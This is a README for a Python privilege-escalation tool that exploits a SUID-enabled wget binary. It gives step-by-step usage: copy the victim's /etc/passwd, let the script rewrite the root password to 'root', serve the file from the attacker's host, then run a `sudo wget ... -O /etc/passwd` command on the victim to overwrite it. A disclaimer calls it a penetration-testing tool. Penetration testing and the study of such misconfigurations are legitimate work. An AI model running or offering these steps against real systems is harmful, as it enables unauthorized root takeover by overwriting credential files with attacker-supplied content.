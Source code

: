 # Wget-Root
This is a python script that exploits wget when being set with a SUID bit, and allows privilege escalation by overwriting the root password. <br>
**⚠️ Warning:** This script is completly for penetration testing purposes. I do not claim any responsibility if you use it for offensive activities.

# Usage
From the victims shell, copy the /etc/passwd file to your host machine. (Be carefull and do not overwrite your own passwd file) <br>
```bash
python3 wget_exploit --file <passwd copy> --port <webserver port> --interface <network interface/ip>
```
The script will overwrite the <passwd copy> file, containing the changed `root` password. 
Then it will host the passwd file to the web using a python http server.<br>
Run the command `sudo wget http://<host ip>:<webserver port>/passwd -O /etc/passwd` on the victims shell to overwrite the passwd file.<br>
**Congratulations!** 
Now switch users to `root` with the password `root`

# Updates
* [x] Make the code cleaner by moving the TCP Server and custom Handler Class outside the main function

![showcase](https://i.imgur.com/1bVzFk8.png)
